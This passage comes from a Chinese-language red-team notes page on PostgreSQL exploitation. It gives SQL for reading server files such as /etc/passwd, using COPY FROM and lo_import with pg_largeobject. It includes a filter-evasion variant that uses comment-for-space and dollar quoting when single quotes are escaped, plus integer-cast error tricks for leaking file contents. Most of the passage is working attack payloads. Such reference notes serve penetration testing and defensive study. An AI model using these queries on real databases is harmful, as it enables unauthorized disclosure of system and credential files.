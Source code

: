 **方法2**

```sql
create table testf0x(t TEXT);
copy testf0x from '/etc/passwd';
select * from testf0x limit 1 offset 0;
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/8.png)

**方法3 lo_import**

lo_import 允许指定文件系统路径。该文件将被读取并加载到一个大对象中，并返回该对象的 OID。

```sql
Select lo_import('/etc/passwd',12345678);
select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a

-- 单引号被转义的情况下使用
select/**/lo_import($$/etc/passwd$$,11111);
select/**/cast(encode(data,$$base64$$)as/**/integer)/**/from/**/pg_largeobject/**/where/**/loid=11111
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/9.png)
